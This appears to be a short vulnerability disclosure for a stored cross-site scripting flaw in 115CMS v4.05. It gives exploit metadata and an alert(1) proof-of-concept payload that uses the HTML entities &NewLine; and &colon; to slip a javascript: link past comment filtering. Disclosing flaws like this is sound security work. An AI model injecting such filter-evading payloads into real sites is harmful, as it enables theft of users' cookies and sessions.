


## Information

```c
Exploit Title:115CMS-v4.05-Cross Site Scripting(XSS)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.115cms.com/
Affect Version:v4.05
Description:There is an XSS vulnerability in 115CMS-v4.05. Attackers can steal users' cookies and other information by constructing malicious request packets
```

## How to Exploit

Login with test1 user and insert malicious XSS code into the comment area of the article.

```
<a href=javasc&NewLine;ript&colon;alert(1)>test<a>
```



When other users click on the malicious link in the comments, the malicious XSS code will be triggered



## Reference

https://www.115cms.com/
